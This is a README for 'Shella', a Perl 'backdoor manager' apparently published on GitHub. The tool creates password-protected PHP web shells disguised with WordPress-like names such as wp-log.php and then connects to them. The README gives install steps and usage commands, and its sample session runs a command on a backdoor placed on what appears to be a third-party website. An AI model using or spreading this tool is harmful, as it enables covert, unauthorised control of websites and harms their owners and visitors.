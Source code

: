 
## Shella | Simple Backdoor Manager with Perl

![Screenshoot](1.png)
<br>
Shella is a simple tool that is written using Perl, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/meico-wq/Shella<br>
$ cd Shella <br>
$ perl shell.pl <br>

### Requirements :

<pre>
cpan install Config::IniFiles
cpan install LWP::UserAgent
cpan install IO::Prompt
</pre>

### Example :
<pre>

perl shell.pl -g wp-log -p mei1337
  
Perl shell |
Generate :
[+] ./shell.pl -g "nama_shell" -p "password"
Connect Server :
[+] ./shell.pl -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password mei1337

meicookies@heker:~/Tools$ perl shell.pl -u "https://www.pamz3d.com/wp-log.php" -p mei1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>

